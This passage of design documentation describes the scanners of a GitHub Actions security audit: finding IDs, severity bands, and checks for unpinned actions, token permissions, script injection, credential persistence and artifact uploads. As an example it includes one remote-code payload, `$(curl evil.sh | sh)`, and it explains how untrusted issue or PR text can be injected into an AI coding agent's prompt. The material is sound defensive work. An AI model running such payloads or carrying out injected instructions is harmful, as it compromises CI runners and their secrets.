  (unpinned third-party action, checkout or execution of an
  attacker-controllable ref/input under a **privileged trigger** —
  `pull_request_target`, `workflow_run`, `issue_comment`, `issues`,
  `discussion`, `discussion_comment`, `pull_request_review`,
  `pull_request_review_comment` — without an author/association
  guard, third-party Action invoked under a privileged trigger,
  org-wide secret exposed to PR-controlled code, `id-token: write`
  granted too broadly, missing actionlint CI gate, **PWN-request** —
  a privileged trigger builds/executes the untrusted PR head with
  secrets in scope (#26), **secret exfiltration** — a `toJson(secrets)`
  dump or a secret echoed into logs/output/artifacts (#27), and an **AI
  coding action** invoked with a secret-leaking debug flag or under an
  untrusted trigger with write scope (#29)).
- **`severity:medium`** — a hardening gap that is not directly
  exploitable but weakens the posture (missing `permissions:` block,
  missing `timeout-minutes`, EOL runtime, stale action major, missing
  concurrency on a pile-up-prone workflow, a privileged trigger
  declared without a justification comment, **action cache poisoning** —
  a cache write reachable from a fork or privileged trigger (#28), and a
  limited-exposure **AI coding action** hardening gap (#29)).
- **`severity:low`** — advisory hygiene (duplicate logical check,
  obsolete ref, deprecated action, copy-paste block) that does not block
  merges.

## Stable finding ID recipe

For the **base** checks (#1–#8), the **supply-chain** checks (#9–#15),
the **script-injection** check (#22), the
**artifact-poisoning** check (#23 in v4,), the
**checkout-persist-credentials** check (#23 in the v3 prompt slot,
), the **`secrets: inherit`** check (#24,), the
**container-image pinning** check (#25,), the
**PWN-request** check (#26,), the **secret-exfiltration**
check (#27,), the **cache-poisoning** check (#28,),
and the **AI-coding-action** check (#29,), the stable
id is `BP-<12 hex>` computed from the inputs:

```
{ repo, "github-actions-audit", slug-of-title, primary file }
```

The literal `"github-actions-audit"` discriminator is **required** so
these ids never collide with best-practices findings for the same
file/title — both families share the `BP-` id space, but the
discriminator keeps them disjoint (mirrors the test-audit pattern).
`slug-of-title` is the finding title lower-cased with non-alphanumeric
runs replaced by `-`. Whitespace and identifier renames are normalised
to equivalence so the same root cause yields the same id across runs.

The remaining checks keep **specific-prefix** id shapes for dedup
back-compatibility with findings filed by the retired best-practices
`github-actions` bucket:

| Prefix | Check | Derivation |
| ------ | ----- | ---------- |
| `BP-STALE-ACTION-<owner>-<action>` | #16 stale major | `<owner>/<action>` with the slash replaced by `-`, lower-cased. |
| `BP-EOL-RUNTIME-<runtime>-<version>` | #17 EOL runtime | `<runtime>` ∈ `node`/`python`/`java`/`go`; `<version>` is the declared version string. |
| `BP-OBSOLETE-STEP-<owner>-<action>` | #18 deprecated action | `<owner>/<action>` slash → hyphen, lower-cased. |
| `BP-DUP-IN-FILE-<12 hex>` | #19 in-file duplicate | hash of `(workflow path, duplicate signal, sorted job/step coordinates)`. |
| `BP-DUP-XFILE-<12 hex>` | #20 cross-file duplicate | hash of `(duplicate signal, sorted workflow paths)`. |
| `BP-OBSOLETE-REF-<12 hex>` | #21 obsolete ref | hash of `(workflow path, dead reference, job/step coordinates)`. |
| `BP-CONTAINER-PIN-<image-slug>` | #35 untrackable container pin (v17) | The image path (registry host included when written out) lower-cased with non-alphanumeric runs collapsed to a single hyphen — e.g. `BP-CONTAINER-PIN-semgrep-semgrep`. One finding per image per repo. |
| `BP-CONTAINER-STALE-<image-slug>` | #36 stale container digest (v17) | Same slug shape as #35 — e.g. `BP-CONTAINER-STALE-semgrep-semgrep`. One finding per image per repo. |

Ten further prefixes are produced by the template's pre-filers (below),
not by Claude:

- `BP-LINTER-github-actions` — the actionlint-in-CI pre-check. The shape
  is shared with the retired best-practices `github-actions` bucket so
  dedup against findings filed by the old path continues to work.
- `BP-RUNNER-<action-slug>-<reason-slug>` — the runner-deprecation
  pre-filer (e.g. `BP-RUNNER-actions-checkout-node20`).
- `BP-SHA-PIN-<owner>-<action-slug>` — the native SHA-pin pre-filer
  (e.g. `BP-SHA-PIN-actions-checkout`, or
  `BP-SHA-PIN-org-repo-github-workflows-build-yml` for a cross-repo
  reusable-workflow call). The `<action-slug>` is the remainder of the
  `uses:` path with non-alphanumeric runs collapsed to a single hyphen,
  lower-cased.
- `BP-PERMISSIONS-<workflow-basename>[-<job>]` — the native permissions
  pre-filer (e.g. `BP-PERMISSIONS-ci` for a top-level `write-all`, or
  `BP-PERMISSIONS-ci-build` for a job with no `permissions:` block). The
  `<workflow-basename>` is the workflow filename without its directory or
  extension; the optional `<job>` suffix is the job name. Both are
  lower-cased with non-alphanumeric runs collapsed to a single hyphen.
- `BP-INJECTION-<workflow-basename>-<job>-<step-index>` — the native
  script-injection pre-filer (e.g. `BP-INJECTION-ci-build-0` for the first
  `run:` step of the `build` job in `ci.yml`). The `<step-index>` is the
  0-based position of the step within the job's `steps` array; the
  `<workflow-basename>` and `<job>` are lower-cased with non-alphanumeric
  runs collapsed to a single hyphen.
- `BP-AI-INJECTION-<workflow-basename>-<job>-<step-index>` — the native
  AI-action prompt-injection pre-filer (check #31, GitLost,;
  e.g. `BP-AI-INJECTION-agent-triage-0` for the first agent step of the
  `triage` job in `agent.yml`). Same slug/step-index shape as
  `BP-INJECTION-…`, but fires on an untrusted `${{ github.event.* }}`
  field reaching an **AI coding-agent action**'s `with:` inputs rather
  than a `run:` shell — produced by the same `run_injection_scanner.ts`
  module.
- `BP-TRIGGER-<workflow-basename>` — the native workflow-trigger
  pre-filer (e.g. `BP-TRIGGER-ci` for `ci.yml`). The `<workflow-basename>`
  is the workflow filename without its directory or extension, lower-cased
  with non-alphanumeric runs collapsed to a single hyphen.
- `BP-PERSIST-CREDS-<workflow-basename>-<job>-<step-index>` — the native
  checkout-persist-credentials pre-filer (e.g. `BP-PERSIST-CREDS-ci-test-0`
  for the first `actions/checkout` step of the `test` job in `ci.yml`). The
  `<step-index>` is the 0-based position of the step within the job's
  `steps` array; the `<workflow-basename>` and `<job>` are lower-cased with
  non-alphanumeric runs collapsed to a single hyphen.
- `BP-ARTIFACT-UPLOAD-<workflow-basename>-<job>-<step-index>` — the native
  broad-artefact-upload pre-filer (e.g. `BP-ARTIFACT-UPLOAD-ci-build-0` for
  the first `actions/upload-artifact` step of the `build` job in `ci.yml`).
  The `<step-index>` is the 0-based position of the step within the job's
  `steps` array; the `<workflow-basename>` and `<job>` are lower-cased with
  non-alphanumeric runs collapsed to a single hyphen.
- `BP-MILESTONE-FILTER-<workflow-basename>` — the native
  milestone-branch-filter pre-filer (e.g. `BP-MILESTONE-FILTER-validate`
  for `validate-scripts.yml`). The `<workflow-basename>` is lower-cased
  with non-alphanumeric runs collapsed to a single hyphen.
- `BP-GITLEAKS-<CLASS>-<workflow-basename>` — the native gitleaks-drift
  pre-filer, where `<CLASS>` is `BRANCH`, `ACTION-STALE`, `NO-FALLBACK`, or
  `NO-PR-TRIGGER` (e.g. `BP-GITLEAKS-ACTION-STALE-gitleaks` for
  `gitleaks.yml`). The `<workflow-basename>` is lower-cased with
  non-alphanumeric runs collapsed to a single hyphen.
- `BP-GITLEAKS-NOT-OBSERVED` — the native gitleaks PR-coverage pre-filer
  (Issue #601). One id per repository, not per workflow: the claim is about
  the repo's observed pull-request coverage, not about a particular file.
- `BP-CI-INSTALL-PIN-<tool>-<package-slug>` — the native
  unpinned-CI-install pre-filer (e.g. `BP-CI-INSTALL-PIN-gem-bundler-audit`,
  `BP-CI-INSTALL-PIN-npm-markdownlint-cli2`). `<tool>` is `npm`, `npx`, or
  `gem`; `<package-slug>` is the package name lower-cased with
  non-alphanumeric runs collapsed to a single hyphen. That collapse is lossy
  — `@foo/bar`, `foo.bar` and `foo_bar` all slug to `foo-bar` — so a name
  that does not round-trip through the slug carries a 12-hex-character
  digest of the raw name (`@scope/tool` →
  `scope-tool-9ff9b400e96c`), and a punctuation-only name that slugs to
  nothing becomes `pkg-<digest>`. A name already in
  `[a-z0-9-]` form keeps its plain slug, so ids such as
  `BP-CI-INSTALL-PIN-npm-markdownlint-cli2` are unchanged. Without the
  digest one suppression silently waived every package sharing the slug.
  One id per package coordinate, however many call-sites it has.

## Pre-filers

Ten pre-filers run in the Deno template **before** Claude runs, so they
always land first and their ids are added to the known-open list passed
to the prompt (Claude does not re-emit them). All are implemented in
[`github_actions_audit_template.ts`](../worker/deno/lib/idle_task_templates/github_actions_audit_template.ts).

### Actionlint-in-CI pre-check

This is a **configuration audit**, not a linter invocation — the same
shape as the linter-in-CI section in
[`docs/BEST-PRACTICES-SCAN.md`](BEST-PRACTICES-SCAN.md#ci-gate-check-linter--compile).
The check walks `.github/workflows/*.yml`/`*.yaml`, parses each workflow
with `@std/yaml`, and inspects every `step.run` and `step.uses` string
for an `actionlint` invocation. It does **not** run actionlint.

| Expected linter | Triggers a finding when… | Stable id | Severity |
| --------------- | ------------------------ | --------- | -------- |
| `actionlint` invoked from a workflow step | No workflow invokes `actionlint` | `BP-LINTER-github-actions` | `severity:high` |

When the gate is missing, the template files a pre-rendered
`severity:high` issue tagged `github-actions-audit` + `severity:high`.
The pre-filed id retains the `BP-LINTER-github-actions` shape used by the
daily best-practices `github-actions` bucket so dedup with findings filed
by the old path continues to work. The finding **counts against the
6-issue cap** — it consumes the first slot and leaves five for Claude.
The check is implemented via
[`linter_in_ci_check.ts`](../worker/deno/lib/linter_in_ci_check.ts),
hard-wired to the `github-actions` bucket.

### Runner-deprecation pre-filer

The runner-deprecation scanner
([`runner_deprecation_scanner.ts`](../worker/deno/lib/runner_deprecation_scanner.ts))
queries recent workflow runs for GitHub's "Node.js NN actions are
deprecated" / `set-output` / `save-state` runner warnings and turns each
into a `BP-RUNNER-<action-slug>-<reason-slug>` finding. Each surviving
finding (deduplicated against the existing known-open ids and the
actionlint pre-file) becomes its own `github-actions-audit` issue via the
shared filer
([`runner_deprecation_filer.ts`](../worker/deno/lib/runner_deprecation_filer.ts),
called with `scanLabel: github-actions-audit` and no `lang:*` label). If
the scanner throws, the error is captured in the wrapper close-comment and
the run continues — a transient scan hiccup never aborts the audit.

### Native SHA-pin pre-filer

The SHA-pin scanner
([`action_pin_scanner.ts`](../worker/deno/lib/action_pin_scanner.ts))
deterministically flags every third-party `uses:` — both actions and
cross-repo reusable-workflow calls
(`owner/repo/.github/workflows/x.yml@<ref>`) — whose ref after `@` is
**not** a full 40-character commit SHA (`/^[0-9a-f]{40}$/`). It reads the
repo's workflow and composite-action files via `readWorkflowFiles`
([`workflow_scan_common.ts`](../worker/deno/lib/workflow_scan_common.ts))
and inspects each `uses:` line — no network, no `gh` API.

Carve-outs (mirroring v7 prompt checks #1 and #13):

| `uses:` shape | Flagged? |
| ------------- | -------- |
| `actions/checkout@<40-hex SHA>` | No — already correct |
| `actions/checkout@v4` / `@main` | **Yes** — mutable tag/branch |
| `stSoftwareAU/*@v1` | No — first-party may pin to a tag |
| `./.github/actions/setup` | No — local same-repo reference |
| `owner/repo/.github/workflows/x.yml@v1` | **Yes** — cross-repo reusable workflow |
| `docker://image:tag` | No — container digest pinning is the LLM's job (v7 #25) |

Findings **consolidate one per distinct unpinned coordinate** (the
`uses:` value without `@ref`), with the body's `## Evidence` block listing
every call-site `file:line` — mirroring v7 #16 "one finding per action
per repo" to avoid issue floods. Each is filed at `severity:high` (an
unpinned third-party action sits in the v7 high band) via the shared
`fileWorkflowFinding` helper, deduplicated against the existing
known-open ids plus the actionlint and runner pre-files. An in-source
`best-practice-ignore: BP-SHA-PIN-…` marker on (or immediately above) a
call-site suppresses that call-site; a coordinate with no surviving
call-sites yields no finding. A scanner failure is swallowed so it never
aborts the audit.

The v7 prompt SHA-pin checks (#1/#13/#25) are **retained** — they keep
the judgement-heavy long tail (container `@sha256:` digests,
provenance-as-sole-gate). The native and LLM paths agree on severity, and
the pre-filed ids in the known-open list stop Claude double-filing the
unambiguous cases.

### Native permissions pre-filer

The permissions scanner
([`workflow_permissions_scanner.ts`](../worker/deno/lib/workflow_permissions_scanner.ts))
deterministically flags the **decidable core** of v7 prompt check #2
(least-privilege `permissions:`). It reads the repo's workflow files via
`readWorkflowFiles`
([`workflow_scan_common.ts`](../worker/deno/lib/workflow_scan_common.ts))
and inspects each parsed workflow's structure — no network, no `gh` API.
Composite actions and unparseable workflows are skipped.

| `permissions:` shape | Flagged? |
| -------------------- | -------- |
| No top-level block **and** a job with no job-level block | **Yes** — that job inherits the broad repository default (`severity:medium`) |
| `permissions: write-all` at top level | **Yes** — over-broad token grant (`severity:medium`) |
| `permissions: write-all` on a job | **Yes** — over-broad token grant (`severity:medium`) |
| Scoped top-level block (e.g. `contents: read`) | No — least privilege already declared |
| Scoped job-level block | No — the job declares its own least privilege |
| `permissions: {}` (empty) | No — an explicit no-scope grant |

A finding is raised per workflow (top-level `write-all`) or per job
(missing block, job-level `write-all`); a job-level `write-all` takes
precedence over the missing-block check for that job. Each is filed at
`severity:medium` via the shared `fileWorkflowFinding` helper,
deduplicated against the existing known-open ids plus the actionlint,
runner, and SHA-pin pre-files. An in-source `best-practice-ignore:
BP-PERMISSIONS-…` marker on (or immediately above) the cited line
suppresses the finding. A scanner failure is swallowed so it never aborts
the audit.

The scope is **strictly** missing-block + `write-all` — the decidable
part of check #2. It does **not** attempt `id-token: write` scoping (#9)
or `secrets: inherit` (#24): those need "does the job actually need it"
judgement and stay with the LLM. The v7 prompt permissions checks
(#2/#9/#24) are **retained**, and the pre-filed ids in the known-open
list stop Claude double-filing the unambiguous cases.

### Native script-injection pre-filer

The script-injection scanner
([`run_injection_scanner.ts`](../worker/deno/lib/run_injection_scanner.ts))
deterministically flags the **decidable core** of v7 prompt check #22
(script injection via untrusted `${{ github.* }}` in `run:` steps). It
reads the repo's workflow files via `readWorkflowFiles`
([`workflow_scan_common.ts`](../worker/deno/lib/workflow_scan_common.ts)),
walks each parsed workflow's `jobs.*.steps[]`, and inspects every step's
`run:` string for a `${{ … }}` expression that interpolates an
attacker-controllable context field. No network, no `gh` API. Composite
actions (which use `runs.steps`) and unparseable workflows are skipped.

The danger: a `${{ … }}` expression is expanded **before** the shell runs,
so shell metacharacters in an attacker-controlled value execute as code. A
pull request titled `$(curl evil.sh | sh)` interpolated into
`run: echo "${{ github.event.pull_request.title }}"` achieves remote code
execution on the runner.

The attacker-controllable allow-list and the trusted-field exclusion set
are encoded **verbatim** from v7 check #22 (kept in lockstep with
`prompts/github_actions_audit/`):

| Field class | Members |
| ----------- | ------- |
| **Attacker-controllable** (flagged) | `github.event.pull_request.title` / `.body` / `.head.ref` / `.head.label`, `github.event.issue.title` / `.body`, `github.event.comment.body`, `github.event.review.body`, `github.event.commits.*.message`, `github.event.workflow_run.head_branch` / `.head_sha`, `github.event.discussion.title` / `.body`, `github.head_ref` |
| **Trusted** (never flagged) | `github.sha`, `github.run_id`, `github.repository`, `github.workflow`, `github.actor` |

A `run:` step is flagged only when it interpolates an allow-listed field
that is not on the exclusion set. The intermediate `env:`-var fix — passing
the value through a step- or job-level `env:` variable and referencing it
as a quoted shell variable (`"$TITLE"`) — moves the expression out of the
`run:` string, so a fixed step is **not** flagged. A field name that
appears as plain shell text (outside a `${{ … }}` block) is ignored.

A finding is raised **per affected step** at `severity:high` (the
direct-RCE class — v7.md ~line 539) via the shared `fileWorkflowFinding`
helper, deduplicated against the existing known-open ids plus the
actionlint, runner, SHA-pin, and permissions pre-files. An in-source
`best-practice-ignore: BP-INJECTION-…` marker on (or immediately above)
the cited line suppresses the finding. A scanner failure is swallowed so
it never aborts the audit.

The scope is **strictly** the literal `${{ github.* }}`-into-`run:` core —
the most false-positive-sensitive of the native checks, so it favours
precision (only the verbatim allow-list) over recall. The broader
injection family (privileged-trigger justification #6,
PWN-request #10/#26, cache poisoning #28, AI-action trust #29) and anything the
conservative native list misses stay with the v7 prompt #22 check, which
is **retained**. The pre-filed ids in the known-open list stop Claude
double-filing the unambiguous cases.

#### AI-action prompt-injection sink (GitLost,)

The same `run_injection_scanner.ts` module carries a **second sink** using
the identical attacker-controllable allow-list: an **AI coding-agent
action** step (`anthropics/claude-code-action`,
`anthropics/claude-code-base-action`, `google-gemini/run-gemini-cli`,
`github/copilot-cli`, recognised by the shared
[`ai_action_identifiers.ts`](../worker/deno/lib/ai_action_identifiers.ts))
whose `with:` inputs interpolate an attacker-controllable
`${{ github.event.* }}` field. Every string (and string-list) `with:`
value is inspected — agent actions expose the prompt under differing keys
(`prompt`, `direct_prompt`, `args`, …). This is the GitLost vector the
`run:`-only scan cannot see: untrusted event text becomes the autonomous
agent's instructions.

A finding is raised **per affected agent step** at `severity:high` with a
distinct `BP-AI-INJECTION-<workflow-basename>-<job>-<step-index>` id (so a
step that is both a `run:` and an agent step — impossible in practice, but
ids stay unambiguous — never collides). A non-agent action receiving an
untrusted field (e.g. `actions/checkout` with an attacker `ref:`) is **not**
flagged here — that is check #10 territory. Trusted-only and static `with:`
inputs are clean, so the sanctioned "summarise the release for
`${{ github.repository }}`" shape is never false-positived. The
judgement-heavy tail (an agent that *implicitly* reads the triggering event
body, or event text laundered through a step-output hop) stays with the
v11 prompt check #31.

### Native workflow-trigger pre-filer

The workflow-trigger scanner
([`workflow_trigger_scanner.ts`](../worker/deno/lib/workflow_trigger_scanner.ts))
flags **test/lint/scan workflows that still trigger on push to the default
branch** (part of). Making those workflows PR-only stops
them re-running post-merge on the default branch — the
duplicate-required-check problem closes — while publishers keep
firing on push. It reads the repo's workflow files via `readWorkflowFiles`
([`workflow_scan_common.ts`](../worker/deno/lib/workflow_scan_common.ts)),
classifies each via
[`workflow_classifier.ts`](../worker/deno/lib/workflow_classifier.ts)
, and inspects the `on:` block. No network beyond a single
best-effort default-branch lookup (`getRepoDefaultBranch`, served from the
worker's cache).

The check is deliberately conservative — it files only when **both**
signals are unambiguous:

| Signal | Flags when… |
| ------ | ----------- |
| Classification | `category === "test"` with `confidence === "high"` — `deploy` and `ambiguous` workflows are never flagged |
| `on:` trigger | A push reaches the default branch: `on: push` / `on: [push, …]`; `push:` with no branch filter; `push.branches` matching the default; or `push.branches-ignore` that does not exclude it |

A push config filtering **tags only** never fires on a branch push, so it
is not flagged; a `branches:`/`branches-ignore:` filter is matched against
the repo's actual default branch (so a non-`main` default is honoured).
When the default branch cannot be resolved the pre-filer is skipped (no
findings).

Each surviving finding is filed at `severity:low` (a CI-hygiene gap, not a
security or correctness bug) via the shared `fileWorkflowFinding` helper,
deduplicated against the existing known-open ids plus all earlier
pre-files. The body describes the fix — drop `push:` to the default
branch, keep `pull_request` / `schedule` / `workflow_dispatch`. An
in-source `best-practice-ignore: BP-TRIGGER-…` marker on (or immediately
above) the cited `push:`/`on:` line suppresses the finding. A scanner
failure is swallowed so it never aborts the audit.

**The scan itself raises no PR.** The trigger pre-filer only *detects and
files* — the actual YAML edit rides a normal worker PR through the
pre-merge gate, keeping the default branch read-only and avoiding a bulk
YAML rewriter (comment loss, breaking publishers).

### Native checkout-persist-credentials pre-filer

The checkout-persist-credentials scanner
([`checkout_persist_credentials_scanner.ts`](../worker/deno/lib/checkout_persist_credentials_scanner.ts))
flags every **`actions/checkout` step lacking `persist-credentials:
false`** in a job that gives no static signal of needing the persisted
token (gap from). It is the deterministic native
counterpart to the long-documented v3-slot check #23, which
was recorded as covered but never actually implemented in any prompt
version or scanner. By default checkout writes the workflow's
`GITHUB_TOKEN` into `.git/config`, where any later step in the job — a
compromised dependency, an injected script — can read it; a
build/test/lint job rarely needs that credential.

The check favours **precision over recall** — a job is **skipped** (not
flagged) when it shows any static sign of needing the credential:

| Signal | Skips when… |
| ------ | ----------- |
| `run:` git write/fetch | A step's `run:` invokes `git push`/`fetch`/`pull`/`submodule`/`clone`/`remote` |
| Known push action | A step's `uses:` references a catalogued git-writing action (`peaceiris/actions-gh-pages`, `ad-m/github-push-action`, `peter-evans/create-pull-request`, `stefanzweifel/git-auto-commit-action`, …) |
| `submodules:` checkout | The checkout step itself requests `submodules:` (truthy) — private submodule fetch needs the credential |

A checkout that already sets `persist-credentials: false` is safe and
never flagged. The nuanced "a push cannot quite be ruled out" cases are
left to the LLM prompt, which can hedge in prose. Each surviving finding
is filed at `severity:medium` via the shared `fileWorkflowFinding` helper,
deduplicated against the existing known-open ids plus all earlier
pre-files. The body describes the fix — add `with: { persist-credentials:
false }` — and names the in-source suppression marker for the
false-positive case. An in-source `best-practice-ignore:
BP-PERSIST-CREDS-…` marker on (or immediately above) the cited `uses:`
line suppresses the finding. A scanner failure is swallowed so it never
aborts the audit.

### Native broad-artefact-upload pre-filer

The broad-artefact-upload scanner
([`artifact_upload_scanner.ts`](../worker/deno/lib/artifact_upload_scanner.ts))
flags every **`actions/upload-artifact` step whose `with.path` is the
whole workspace** (gap from). It is the deterministic
native counterpart to v9 prompt check #30 — the gap the Corgea checklist
§9 ("avoid broad artifact uploads such as `path: .`") identified: v8 only
flagged artefacts that contain the GitHub environment (checks #3 and #27),
never a broad-path upload in general. A `path: .` upload ships the entire
checkout — `.git/` (with the persisted `GITHUB_TOKEN` unless
`persist-credentials: false` was set), any `.env`/build secret, and all
source — to an artefact every collaborator (and anyone on a public repo)
can download.

The check favours **precision over recall** — only the unambiguous
whole-workspace tokens are flagged natively:

| Token | Flagged |
| ----- | ------- |
| `.` / `./` | The current working directory (the whole checkout) |
| `*` / `**` | A bare top-level glob capturing the whole cwd |
| `${{ github.workspace }}` | The workspace root (with or without a trailing `/`) |

A multi-line `path:` block is flagged when **any** line is a
whole-workspace token. A scoped path (`dist/`, `target/release/bin`) is
never flagged, and the judgement-heavy "otherwise unscoped" long tail (a
parent directory, a glob anchored at the workspace root that is not a bare
`*`/`**`) is left to the LLM prompt. Each surviving finding is filed via
the shared `fileWorkflowFinding` helper at `severity:low` baseline,
escalated to `severity:medium` when the job has secrets in scope (a
`${{ secrets.* }}` reference at workflow-level `env`, the job, or a step)
**or** the workflow uses a trigger from the privileged-trigger set — both
statically decidable. An in-source `best-practice-ignore:
BP-ARTIFACT-UPLOAD-…` marker on (or immediately above) the cited `uses:`
line suppresses the finding. A scanner failure is swallowed so it never
aborts the audit.

### Native milestone-branch-filter pre-filer

The milestone-branch-filter scanner
([`milestone_branch_filter_scanner.ts`](../worker/deno/lib/milestone_branch_filter_scanner.ts))
flags every **CI quality workflow whose `pull_request` branch filter misses
milestone feature branches**. Milestone sub-issue PRs target
a shared `milestone/<name>` branch (the planning-delivery workflow,
), so a workflow that restricts `pull_request.branches` to, say,
`[Develop, main]` never runs on those PRs — they merge into the milestone
branch without the gate, and the gap is only caught later by the single
rollup PR into the default branch. It reuses the same branch-glob matcher
as the trigger pre-filer
([`workflow_branch_glob.ts`](../worker/deno/lib/workflow_branch_glob.ts))
and the shared `readWorkflowFiles` / `classifyWorkflow` plumbing. No
network.

The check is deliberately conservative — it files only when **both**
signals are unambiguous:

| Signal | Flags when… |
| ------ | ----------- |
| Classification | `category === "test"` with `confidence === "high"` — `deploy` and `ambiguous` workflows are never flagged (a publisher/release workflow should not run on every milestone PR) |
| `pull_request` filter | A `branches:` list matching no `milestone/<slug>` branch, **or** a `branches-ignore:` list that excludes `milestone/*`. A `pull_request` trigger with **no** branch filter already runs on every PR target and is never flagged |

Coverage is decided by matching each filter against a representative
`milestone/example` branch, so `milestone/*`, `milestone/**`, and `**` all
count as covering. A single-star `branches: ["*"]` does **not** — a GitHub
`*` matches any run of characters *except* `/`, so it never matches
`milestone/<slug>` and is flagged exactly like `[Develop, main]`. That
spelling is the trap: it reads as "every branch" but silently excludes the
dominant merge path (which fixed this repo's own
`gitleaks.yml`, `semgrep.yml` and `markdown-lint.yml`). Each surviving finding is filed at `severity:medium` (a
real gate gap, backstopped by the final rollup PR) via the shared
`fileWorkflowFinding` helper, deduplicated against the known-open ids plus
all earlier pre-files. The body describes the fix — add `milestone/*` to
the `pull_request.branches` filter. An in-source `best-practice-ignore:
BP-MILESTONE-FILTER-…` marker on (or immediately above) the cited
`pull_request:`/`branches:` line suppresses the finding. A scanner failure
is swallowed so it never aborts the audit.

**The scan itself raises no PR.** Per isolation each repo owns
and enforces its own gate: the pre-filer only *detects and files*, and the
YAML edit rides a normal per-repo worker PR through the pre-merge gate — no
shared cross-repo mechanism.

### Native gitleaks-drift pre-filer

The gitleaks-drift scanner
([`gitleaks_drift_scanner.ts`](../worker/deno/lib/gitleaks_drift_scanner.ts))
flags every **per-repo `gitleaks.yml` copy that has drifted from the
canonical workflow the worker emits today**. The `gitleaks` workflow spec
detects presence by pattern (`["gitleaks/gitleaks-action", "gitleaks"]`), so
`auditRepoWorkflows` counts any file mentioning gitleaks as covered — a copy
pushed months ago with `branches: ["*"]` and `gitleaks-action@v2` scores as
fully covered while scanning almost nothing. Presence is not currency, and
each repo keeps its own committed copy (per-repo isolation), so drift
detection is the only thing keeping those copies honest over time. No
network.

| Finding | Flags when… |
| ------- | ----------- |
| `BP-GITLEAKS-BRANCH-<basename>` | The `pull_request.branches` filter matches no `milestone/<slug>` branch — `["*"]` is the common offender, since a GitHub `*` never matches a `/` |
| `BP-GITLEAKS-ACTION-STALE-<basename>` | `gitleaks/gitleaks-action` is tag-pinned (`@v2`, `@v3`) or pinned to a SHA other than the one `pinnedAction()` resolves today |
| `BP-GITLEAKS-NO-FALLBACK-<basename>` | The workflow scans only via the licensed action, with no open-source gitleaks CLI step — Dependabot PRs receive no Actions secrets, so the action exits `ErrLicense` and scans nothing |
| `BP-GITLEAKS-NO-PR-TRIGGER-<basename>` | No gitleaks workflow in the repo declares a `pull_request` trigger at all — the file exists, the PRs are unscanned |

A workflow qualifies as a gitleaks workflow only when it genuinely runs
gitleaks — a `uses: gitleaks/gitleaks-action` step or a `run:` step invoking
the CLI. A file that merely names gitleaks in a comment is not one; that
conflation is the defect this pre-filer closes. Composite actions and
unparseable YAML yield nothing and never throw.

The branch finding is **not** double-filed against the milestone-branch-filter
pre-filer above: a real `gitleaks.yml` classifies as `test`/`high`, so that
scanner emits `BP-MILESTONE-FILTER-<basename>` for the same file and the same
gap. The drift scanner runs immediately after it and drops its own branch
finding whenever that id is already open or was filed this run.

Every finding's **Suggested fix** also carries the "Make this scan block
merges" section: refreshing the YAML fixes what gitleaks scans,
but the scan still blocks nothing until its check
(`Gitleaks / gitleaks`, derived from the scanned file's own workflow and job
names) is a required status check on the ruleset gating the **default
branch** *and* the one gating `milestone/**`. A human owns that change —
the worker's token is deliberately denied ruleset permissions.

Each surviving finding is filed at `severity:medium` via the shared
`fileWorkflowFinding` helper, deduplicated against the known-open ids plus
all earlier pre-files. An in-source `best-practice-ignore: BP-GITLEAKS-…`
marker on (or immediately above) the cited line suppresses the finding.

**The scan itself raises no PR.** Per isolation the YAML refresh rides a
normal per-repo worker PR — the pre-filer only detects and files.

### Native gitleaks PR-coverage pre-filer

The PR-coverage scanner
([`gitleaks_pr_coverage_scanner.ts`](../worker/deno/lib/gitleaks_pr_coverage_scanner.ts))
answers the question the file-content audit cannot: did gitleaks actually
**report** on this repo's pull requests? The drift pre-filer above asks
whether the committed copy is current; this one asks whether it ever ran. A
present workflow runs nothing when Actions are disabled for the repository,
when the workflow is disabled in the Actions UI, when its `pull_request`
branch filter misses the PRs' base branch, when a job `if:` never fires, or
when a YAML error stops it being registered — and every one of those reads as
"present" to `auditRepoWorkflows`.

Read-only, via the injected `GhCommandFn`:

1. list the most recently updated closed pull requests
   (`repos/{owner}/{repo}/pulls?state=closed&sort=updated`, 10 by default);
2. read the check runs on each PR's head SHA
   (`repos/{owner}/{repo}/commits/{sha}/check-runs`); and
3. decide whether a gitleaks check reported.

A check run counts as gitleaks when its name mentions gitleaks, or matches a
job that runs gitleaks in one of the repo's own workflows — by job name, by
`<workflow> / <job>`, or by the `<name> (<combination>)` matrix expansion. So
the canonical template's `gitleaks` check matches, and so does a scan living
in a differently-named job of a `quality.yml`. A **`skipped`** conclusion is
*not* a report: a skipped job scans nothing.

| Outcome | Result |
| ------- | ------ |
| A gitleaks check reported on any sampled PR | No finding — the control is live |
| No gitleaks check reported on any sampled PR | One `severity:medium` `BP-GITLEAKS-NOT-OBSERVED` issue naming the sampled PR numbers and the usual causes |
| Only `skipped` conclusions | Finding, with the skipped PRs named |
| The repo has no gitleaks workflow | Nothing — that gap is the missing-workflow issue from `setup/workflow_sync.ts` |
| The PR listing failed, there are no closed PRs, or every check-run lookup failed | Nothing filed, and the reason logged — undecidable is never reported as clean |

**A partial sample never reads as a clean verdict.** Fewer PRs than
requested, or a check-run lookup that failed for some of them, is stated in
the finding's evidence *and* logged through the template's logger, so the
issue says exactly what was and was not inspected.

**The scan itself raises no PR.** Per isolation the fix — re-enabling
Actions, re-enabling the workflow, or correcting the branch filter — is a
per-repo change; the pre-filer only detects and files.

### Native unpinned-CI-install pre-filer

The CI-install pin scanner
([`ci_install_pin_scanner.ts`](../worker/deno/lib/ci_install_pin_scanner.ts))
flags every **`run:`-level package install with no exact version pin**
(split out of). `action_pin_scanner.ts` only inspects
`uses:`, so an install inside a `run:` block was invisible to every native
pre-filer: the build resolved whatever the registry served at that moment,
outside any dependency quarantine (Renovate's `minimumReleaseAge` and
Deno's `minimumDependencyAge` cover manifests only, and a `run:` block is
not a manifest). A hijacked release therefore executes on the runner — with
the workflow's `GITHUB_TOKEN` and any secrets in scope — the instant it is
published. Workflows (`jobs.*.steps[].run`) and composite actions
(`runs.steps[].run`) are both scanned. No network.

| Tool | Flags when… | Never flagged |
| ---- | ----------- | ------------- |
| `npm` | `npm install` / `npm i` / `npm add <spec>` where `<spec>` carries no exact `name@1.2.3` version (`pkg`, `pkg@3`, `pkg@^14.1.1`) | `npm ci`, `npm config set …`, and any other non-install subcommand |
| `npx` | `npx --yes <spec>` / `npx -y <spec>` / `npx -p <spec>` — the **explicit-fetch** forms — with no exact version | A bare `npx <spec>`, which prefers the binary already in `node_modules` and is governed by the lockfile |
| `gem` | `gem install <spec>` with no exact `-v` / `--version` | `gem install <spec> -v 1.2.3` |

Local paths, `file:`, `git+`, `http(s):` specs, shell variables (`$TOOL`,
